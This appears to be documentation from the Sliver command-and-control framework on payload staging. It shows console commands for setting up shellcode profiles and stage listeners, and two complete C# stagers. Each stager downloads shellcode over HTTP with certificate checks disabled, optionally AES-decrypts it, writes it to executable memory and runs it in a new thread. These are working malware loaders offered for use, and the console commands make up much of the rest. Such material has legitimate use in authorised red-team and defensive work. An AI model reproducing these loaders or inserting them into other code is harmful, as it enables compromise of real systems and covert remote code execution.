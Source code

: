 __Important:__ You must have MinGW installed on your Sliver server to get some staged (e.g., Windows DLLs) payloads to work.

## Overview

As payloads can be pretty big (around 10MB), you may sometime require the use of stagers to execute your implant on a target system.

Sliver supports the `meterpreter` staging protocol over TCP and HTTP(S). This protocol is pretty straight forward:

- read the size of the stage 2 payload on the wire (the first 4 bytes for the TCP stager)
- download the stage 2
- allocate the size read in the first step, and write the stage in memory

For this to work, we need the following pieces:

- a staging server (the Sliver server)
- a stage 2 payload (usually a Sliver shellcode, but can be in other formats)
- stagers (generated by `msfvenom`, the Sliver `generate stager` command, or a custom one)

## Example

Sliver implements staging by reusing the profiles feature. Profiles are sorts of implant blueprints that define a configuration to be reused by the `profile generate` command.
The following command creates a new profile that we will use for our staging listener:

```
sliver > profile new --mtls 192.168.122.1 --skip-symbols --format shellcode win-shellcode

[*] Saved new profile win-shellcode

sliver > profiles 

Name           Platform       Command & Control              Debug  Format      Obfuscation   Limitations
====           ========       =================              =====  ======      ===========   ===========
win-shellcode  windows/amd64  [1] mtls://192.168.122.1:8888  false  SHELLCODE   strings only  
```

We can now create a staging listener and link it to the profile:

```
sliver > stage-listener --url tcp://192.168.122.1:1234 --profile win-shellcode

[*] No builds found for profile win-shellcode, generating a new one
[*] Job 1 (tcp) started
sliver > jobs

ID  Name  Protocol  Port  
==  ====  ========  ====  
1   TCP   tcp       1234  
2   mtls  tcp       8888  
```

Sliver staging listeners only accept `tcp://` and `http://` schemes for the `--url` flag. The format for this flag is `scheme://IP:PORT`. If no value is specified for `PORT`, an error will be thrown out.

We can now generate a stager using the `generate stager` command:

```
sliver > generate stager --lhost 192.168.122.1 --lport 1234 --save /tmp

[*] Sliver stager saved to: /tmp/CIRCULAR_BRA
```

By default, the staging protocol used is TCP. The `--protocol` flag can be used to specify either `tcp` or `http` as the staging protocol.
The generated shellcode can now be used on the target system to start a new Sliver session.

## Custom stagers

One thing to consider while writing or using a custom stager, especially for the HTTP protocol, is that the Sliver server will only serve stage 2 payloads on specifically defined URLs. Indeed, since the HTTP staging listener is reusing the regular HTTP listener, it follows the same [procedural HTTP protocol](https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2#procedural-http-c2).
The extension used to retrieve a stage 2 payload is `.woff`.

As a result, if you want to implement your own stager to fetch a stage 2 payload via HTTP, you need to query a URL that looks like this: `http://SLIVER-SERVER:STAGING-PORT/whatever.woff`.

Here is a C# example of a custom HTTP stager:

```csharp
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace SliverStager
{
    public class Stager
    {
        private static string url = "http://a.bc/test.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```


## Encrypted Stage Example 


```
stage-listener --url http://192.168.0.52:80 --profile win-shellcode --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV
```

If aes-encrypt-iv is not set it defaults to `0000000000000000`. After the stage generation is completed AES key and iv are displayed.

```csharp
using System;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace Sliver_stager
{
    class Program
    {
        private static string AESKey = "D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT";
        private static string AESIV = "8y/B?E(G+KbPeShV";
        private static string url = "http://192.168.0.52/test.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);
            shellcode = Decrypt(shellcode, AESKey, AESIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```